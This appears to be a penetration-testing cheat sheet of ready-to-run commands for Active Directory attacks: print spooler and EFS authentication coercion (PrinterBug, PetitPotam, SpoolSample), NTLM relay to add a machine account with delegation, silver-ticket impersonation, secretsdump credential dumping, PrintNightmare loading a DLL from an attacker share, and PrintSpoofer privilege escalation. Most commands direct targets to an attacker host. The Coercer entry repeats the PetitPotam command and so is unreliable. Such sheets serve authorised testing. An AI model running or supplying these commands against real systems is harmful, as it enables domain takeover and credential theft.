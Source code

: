 # Printerbug and Petitpotam

% printerbug, petitpotam, Active directory

## Finding Spooler services listening
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Finding Spooler services anonymous
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/NotMedic/NetNTLMtoSilverTicket

```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```

## printerbug
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## webclientservicescanner
#plateform/linux  #target/remote #cat/RECON
https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner '<domain>/<user>:<password>'@<ip_range>
```

## PetitPotam
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain> <listener> <target>
```

## Coercer
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/p0dalirius/Coercer
```
PetitPotam.py -u <user> -p '<password>' -d <domain> -l <listener> -t <target-ip>
```

## ntlmrelayx add computer
#plateform/linux  #target/remote #cat/ATTACK/MITM 
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## use silver ticket
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc>
```

## PrintNightmare
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"

Need a real smb server (not work with the impacket server)

```
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```

## Printspoofer privesc
#plateform/windows  #target/local #cat/ATTACK/EXPLOIT

https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```

## Spoolsample launch pipe
#plateform/windows  #target/remote #cat/ATTACK/EXPLOIT
```
SpoolSample.exe <target_hostname> <target_hostname>/pipe/test
```

## Spoolsample
#plateform/windows  #target/remote #cat/ATTACK/EXPLOIT

coherced authentitication 

```
SpoolSample.exe <target_server> <capture_server> 
```


= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil
= ip_range : 192.168.1.0/24
